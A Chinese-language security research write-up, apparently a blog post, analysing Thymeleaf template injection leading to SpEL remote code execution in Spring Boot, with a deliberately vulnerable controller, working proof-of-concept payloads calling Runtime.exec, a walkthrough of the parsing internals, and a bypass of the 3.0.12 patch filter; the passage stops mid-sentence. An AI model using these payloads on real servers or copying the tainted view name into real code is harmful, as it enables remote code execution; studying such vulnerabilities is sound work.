# Thymeleaf SSTI

## 前言

开始学习Thymeleaf的SSTI，最后也就是SpEL注入了。

## 前置知识

这东西我就跳过去了。。不过前端，更不懂前端的模板，thymeleaf更是不明白。。

Thymeleaf 表达式可以有以下类型：

- `${...}`：变量表达式 —— 通常在实际应用，一般是OGNL表达式或者是 Spring EL，如果集成了Spring的话，可以在上下文变量（context variables ）中执行
- `*{...}`: 选择表达式 —— 类似于变量表达式，区别在于选择表达式是在当前选择的对象而不是整个上下文变量映射上执行。
- `#{...}`: Message (i18n) 表达式 —— 允许从外部源（比如`.properties`文件）检索特定于语言环境的消息
- `@{...}`: 链接 (URL) 表达式 —— 一般用在应用程序中设置正确的 URL/路径（URL重写）。
- `~{...}`：片段表达式 —— **Thymeleaf 3.x 版本新增的内容**，分段段表达式是一种表示标记片段并将其移动到模板周围的简单方法。 正是由于这些表达式，片段可以被复制，或者作为参数传递给其他模板等等


利用的就是`~{}`，panda师傅给出的例子：

**`~{templatename::selector}`**，会在`/WEB-INF/templates/`目录下寻找名为`templatename`的模版中定义的`fragment`

不明白，啥`selector`，啥`fragment`，这都是啥嘛。。。。。不懂前端的我留下了悔恨的泪水。。。但我知道这样用的就是。。。

而且当`~{}`片段表达式中出现`::`，那么 `::`后需要有值（也就是`selector`）


接下来thymeleaf的一个用户在环境中说。

## 环境

SpringBoot+thymeleaf，pom.xml：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.6.4</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.example</groupId>
    <artifactId>springboot</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>springboot</name>
    <description>springboot</description>
    <properties>
        <java.version>1.8</java.version>
        <thymeleaf.version>3.0.11.RELEASE</thymeleaf.version>
        <thymeleaf-layout-dialect.version>2.0.0</thymeleaf-layout-dialect.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

        <dependency>
            <groupId>org.projectlombok</groupId>
            <artifactId>lombok</artifactId>
            <optional>true</optional>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
            <version>2.4.0</version>
        </dependency>

    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
                <configuration>
                    <excludes>
                        <exclude>
                            <groupId>org.projectlombok</groupId>
                            <artifactId>lombok</artifactId>
                        </exclude>
                    </excludes>
                </configuration>
            </plugin>
        </plugins>
    </build>

</project>

```

需要指定` <thymeleaf.version>3.0.11.RELEASE</thymeleaf.version>`。

thymeleaf默认的模板文件是在`resources/templates`下面的，但是总会有一堆奇葩问题。

所以`application.yml`中写：

```yml
server:
  port: 8081
spring:
  thymeleaf:
    cache: false
    prefix: classpath:/templates/
    suffix: .html
```

控制器：

```java
package com.example.springboot.controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;

@Controller
public class ThymeleafController {
    @GetMapping("/path")
    public String path(@RequestParam String lang) {
        return lang;//template path is tainted
    }
}

```

注意一定要用`@Controller`。这就是thymeleaf的一种用户，当用的`@Controller`的时候，返回的字符串并不是真的打印到页面上的字符串，而是根据这个字符串去寻找模板来渲染。比如`?lang=feng`，那么会去渲染`resources/templates/feng.html`，而漏洞就出在这个地方，如果要渲染的模板名可控的话，就会造成SpEL注入导致rce。


## 分析

poc：

```
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}__::.x
```


从`ServletInvocableHandlerMethod#invokeAndHandle`方法开始看：



`invokeForRequest`方法根据请求的路径去调用相应的controller，然后得到返回值。因此这里`returnValue`的值就是`__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}__::.x`。

往下跟进`handleReturnValue`对返回值进行处理：



然后将这个值作为模板名称：




之后调用`processDispatchResult`开始处理：



开始render：




不过跟进到了`ThymeleafView`的`renderFragment`方法，开始处理了。

第一个关键点：



判断模板名中是否有`::`，如果有的话，调用`parseExpression`，并且在模板名外面加上了`~{}`：

```java
                fragmentExpression = (FragmentExpression) parser.parseExpression(context, "~{" + viewTemplateName + "}");
```


跟进来到了第二个关键点，预处理：



```java
    static String preprocess(
            final IExpressionContext context,
            final String input) {

        if (input.indexOf(PREPROCESS_DELIMITER) == -1) {
            // Fail quick
            return input;
        }

        final IStandardExpressionParser expressionParser = StandardExpressions.getExpressionParser(context.getConfiguration());
        if (!(expressionParser instanceof StandardExpressionParser)) {
            // Preprocess will be only available for the StandardExpressionParser, because the preprocessor
            // depends on this specific implementation of the parser.
            return input;
        }

        final Matcher matcher = PREPROCESS_EVAL_PATTERN.matcher(input);
        
        if (matcher.find()) {

            final StringBuilder strBuilder = new StringBuilder(input.length() + 24);
            int curr = 0;
            
            do {
                
                final String previousText = 
                        checkPreprocessingMarkUnescaping(input.substring(curr,matcher.start(0)));
                final String expressionText = 
                        checkPreprocessingMarkUnescaping(matcher.group(1));
                        
                strBuilder.append(previousText);
                
                final IStandardExpression expression =
                        StandardExpressionParser.parseExpression(context, expressionText, false);
                if (expression == null) {
                    return null;
                }
                
                final Object result = expression.execute(context, StandardExpressionExecutionContext.RESTRICTED);
                
                strBuilder.append(result);
                
                curr = matcher.end(0);
                
            } while (matcher.find());
            
            final String remaining = checkPreprocessingMarkUnescaping(input.substring(curr));
            
            strBuilder.append(remaining);
            
            return strBuilder.toString().trim();
            
        }
        
        return checkPreprocessingMarkUnescaping(input);
        
    }
```

根据`if (input.indexOf(PREPROCESS_DELIMITER) == -1) {`必须要有`_`（PREPROCESS_DELIMITER就是下划线）。

然后进行正则匹配：

```java
        final Matcher matcher = PREPROCESS_EVAL_PATTERN.matcher(input);


    //private static final String PREPROCESS_EVAL = "\\_\\_(.*?)\\_\\_";
    //private static final Pattern PREPROCESS_EVAL_PATTERN = Pattern.compile(PREPROCESS_EVAL, Pattern.DOTALL);
```

如果匹配到了`__xx__`这样的，就取出`__xx__`前面部分和xx那部分：



再递归对xx那部分进行parse：



此时`xx`这部分就是`${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}`。

接下来就是一堆处理，直接跳过了，最后在`SPELVariableExpressionEvaluator#evaluate`中实现了SpEL注入：




所以构造其实就是这样，领SpEL注入的exp是xxx，那么首先要有`__xxx__`，然后要需要存在`::`且`::`后还要有东西。

这样就行`__xxx__::feng`。

最简单就是这样了：

```java
__${T(java.lang.Runtime).getRuntime().exec("calc")}__::feng
```


## 修复与bypass

需要修改pom.xml：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.6.4</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.example</groupId>
    <artifactId>springboot</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>springboot</name>
    <description>springboot</description>
    <properties>
        <java.version>1.8</java.version>
        <thymeleaf.version>3.0.12.RELEASE</thymeleaf.version>
        <thymeleaf-layout-dialect.version>2.0.0</thymeleaf-layout-dialect.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

        <dependency>
            <groupId>org.projectlombok</groupId>
            <artifactId>lombok</artifactId>
            <optional>true</optional>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
            <version>2.4.0</version>
        </dependency>

    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
                <configuration>
                    <excludes>
                        <exclude>
                            <groupId>org.projectlombok</groupId>
                            <artifactId>lombok</artifactId>
                        </exclude>
                    </excludes>
                </configuration>
            </plugin>
        </plugins>
    </build>

</project>

```

`thymeleaf`版本修改为`3.0.12`：

```
<thymeleaf.version>3.0.12.RELEASE</thymeleaf.version>
```

再尝试拿POC打，发现失败了，报了这样的错误：

> View name is an executable expression, and it is present in a literal manner in request path or parameters, which is forbidden for security reasons.

这个问题之后再说，可以先把控制器改成这样：

```java
    @GetMapping("/path")
    public String path(@RequestParam String lang) {
        return "./"+lang;//template path is tainted
    }
```


然后把之前的POC打过去一路跟，在这里进入函数开始检测：



最后在`SPELVariableExpressionEvaluator`的第367行，调用了`containsSpELInstantiationOrStatic()`检测：



```java
    public static boolean containsSpELInstantiationOrStatic(final String expression) {

        /*
         * Checks whether the expression contains instantiation of objects ("new SomeClass") or makes use of
         * static methods ("T(SomeClass)") as both are forbidden in certain contexts in restricted mode.
         */

        final int explen = expression.length();
        int n = explen;
        int ni = 0; // index for computing position in the NEW_ARRAY
        int si = -1;
        char c;
        while (n-- != 0) {

            c = expression.charAt(n);

            // When checking for the "new" keyword, we need to identify that it is not a part of a larger
            // identifier, i.e. there is whitespace after it and no character that might be a part of an
            // identifier before it.
            if (ni < NEW_LEN
                    && c == NEW_ARRAY[ni]
                    && (ni > 0 || ((n + 1 < explen) && Character.isWhitespace(expression.charAt(n + 1))))) {
                ni++;
                if (ni == NEW_LEN && (n == 0 || !Character.isJavaIdentifierPart(expression.charAt(n - 1)))) {
                    return true; // we found an object instantiation
                }
                continue;
            }

            if (ni > 0) {
                // We 'restart' the matching counter just in case we had a partial match
                n += ni;
                ni = 0;
                if (si < n) {
                    // This has to be restarted too
                    si = -1;
                }
                continue;
            }

            ni = 0;

            if (c == ')') {
                si = n;
            } else if (si > n && c == '('
                        && ((n - 1 >= 0) && (expression.charAt(n - 1) == 'T'))
                        && ((n - 1 == 0) || !Character.isJavaIdentifierPart(expression.charAt(n - 2)))) {
                return true;
            } else if (si > n && !(Character.isJavaIdentifierPart(c) || c == '.')) {
                si = -1;
            }

        }

        return false;

    }
```

主要的作用就是倒序检查是否存在`new`和`T(`，如果存在就抛出异常。


这里的bypass思路是三梦师傅发现`T`和`(`中间存在空格的话，仍然可以成功调用`T()`。。panda师傅fuzz发现换行等也可以。。。。（有之前CTFfuzz的感觉了），所以bypass后的POC就很简单了：

```java
__${T (java.lang.Runtime).getRuntime().exec("calc")}__::feng
```


但是问题还没有解决，就是上面的`View name is an executable expression, and it is present in a literal manner in request path or parameters, which is forbidden for security reasons.`。会出现这个的原因是这个检查：

